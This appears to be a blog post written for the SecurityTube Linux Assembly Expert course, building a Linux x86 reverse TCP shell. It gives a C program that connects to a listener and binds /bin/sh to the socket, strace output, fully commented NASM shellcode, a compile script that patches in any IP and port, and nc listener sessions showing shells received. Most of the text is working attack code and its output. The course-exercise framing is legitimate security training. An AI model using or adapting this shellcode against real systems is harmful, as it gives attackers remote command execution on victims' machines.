 ```yaml
---
title:  "[SLAE 2] Reverse TCP Shellcode"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

## Reverse TCP Shellcode

This is the second assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam: building a reverse TCP shellcode. As for the previous _`bind tcp`_ one, I've started with a C program that creates a reverse TCP connection:
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
 
int main() {
    int sockfd = 0;
    int ret = 0;
 
    struct sockaddr_in dest;
 
    // Create an un-named socket. returns socket descriptor
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    memset(&dest, '0', sizeof(struct sockaddr));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("127.0.0.1"); 
    dest.sin_port = htons(8888);
 
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr));
 
    // Duplicate stdin, stdout, stderr
    ret = dup2(sockfd, 0);
    if (-1 == ret) {
        printf("STDIN duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 1);
    if (-1 == ret) {
        printf("STDOUT duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    ret = dup2(sockfd, 2);
    if (-1 == ret) {
        printf("STDERR duplication failed: %s\n", strerror(errno));
        return 1;
    }
 
    // Replace process image
    char *args[2];
    args[0] = "/bin/sh";
    args[1] = NULL;      // Needs to ne a NULL terminated list of args
 
    ret = execve(args[0], args, NULL);
    if (-1 == ret) {
        printf("Execve failed: %s\n", strerror(errno));
        return 1;
    }
 
    return 0;
}
```

I've then compiled the reverse shell:
```bash
$ gcc -Wall shell_reverse_tcp.c -o shell_reverse_tcp
```

And started the listener to test: 
```bash
$ nc -lvvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
```

And in another terminal executed the reverse shellcode: 
```bash
$ ./shell_reverse_tcp
```

Sure enough, the listener received a remote connection:
```bash
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 60226)
whoami
liv
```

To see the system calls necessary to implement this in assembly, I've used _`strace`_:
```bash
$ strace ./shell_reverse_tcp
...
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0
```

Next is the commented assembly source code implementing the system calls from above:
```c
global _start   

section .text
_start:

    ; Linux Syscall Reference
    ; http://syscalls.kernelgrok.com/


    ; 1. socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = sockfd
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    push ecx        ; NULL terminate args list
    mov cl, 6       ; IPPROTO_TCP (6)
    push ecx
    xor ecx, ecx
    mov cl, 1       ; SOCK_STREAM (1) - in socket.h
    push ecx
    xor ecx, ecx
    mov cl, 2       ; PF_INET (2) - IP PROTO FAMILY
    push ecx
    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 1       ; socketcall type of call: SYS_SOCKET (1) 
    push 102
    pop eax         ; socketcall syscall
    int 0x80
    mov edx, eax    ; sockfd is returned in eax. Save into edx    

    ; 2. connect(3, {sa_family=AF_INET, sin_port=htons(8888), sin_addr=inet_addr("127.0.0.1")}, 16)
    ;struct sockaddr_in {
    ;    short            sin_family;   // e.g. AF_INET, AF_INET6
    ;    unsigned short   sin_port;     // e.g. htons(3490)
    ;    struct in_addr   sin_addr;     // see struct in_addr, below
    ;    char             sin_zero[8];  // zero this if you want to
    ;};
    ;struct in_addr {
    ;    unsigned long s_addr;          // load with inet_pton()
    ;};
    push <IP>       ; IP address
    push word <PORT>; 16 bits - port number
    push word 2     ; family - AF_INET (2)
    mov ecx, esp    ; pointer to args

    push byte 0x10  ; Address length - 16 bytes
    push ecx        ; Pointer to sockaddr_in structure
    push edx        ; sockfd from socket call

    mov ecx, esp    ; socketcall arguments
    xor ebx, ebx
    mov bl, 3       ; socketcall type of call: SYS_CONNECT (3)
    xor eax, eax
    mov al, 102     ; socketcall syscall
    int 0x80

    ; 3. dup2(connfd, 2), dup2(connfd, 1), dup2(connfd, 0)
    push 2
    pop ecx         ; ecx - newfd
    mov ebx, edx    ; edx - connfd, ebx - oldfd
    dup_loop:
    mov al, 63      ; dup2 syscall
    int 0x80
    dec ecx
    jns dup_loop    ; exit when signed (-1)
      
    ; 4. execve("/bin/sh", ["/bin/sh"], [/* 0 vars */])
 ; PUSH the first null dword 
 xor eax, eax
 push eax

    ; PUSH //bin/sh (8 bytes) 
 push 0x68732f2f ; 'hs//'
 push 0x6e69622f ; 'nib/
 mov ebx, esp    ; EBX - 1st param - NULL terminated filename

 push eax        ; EDX - 3rd param - NULL terminated list of env variables
 mov edx, esp    ; NULL terminator must be set before setting the 2nd param!

 push ebx        ; ECX - 2nd param - array of argument strings
 mov ecx, esp

 mov al, 11      ; execve syscall
 int 0x80
```

The IP address and port are replaced by a bash script, which does the compilation and linking:
```bash
$ ./compile.sh 
Usage: compile.sh {ip} {port}
$ ./compile.sh 127.0.0.2 8899
[+] Replacing IP with 0x0200007f
[+] Replacing port number with 0xc322
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Cleaning ...
[+] Done!
$ nc -lvvp 8899 
Listening on [0.0.0.0] (family 0, port 8899)
$ ./shell_reverse_tcp
Connection from [127.0.0.1] port 8899 [tcp/*] accepted (family 2, sport 41801)
whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**

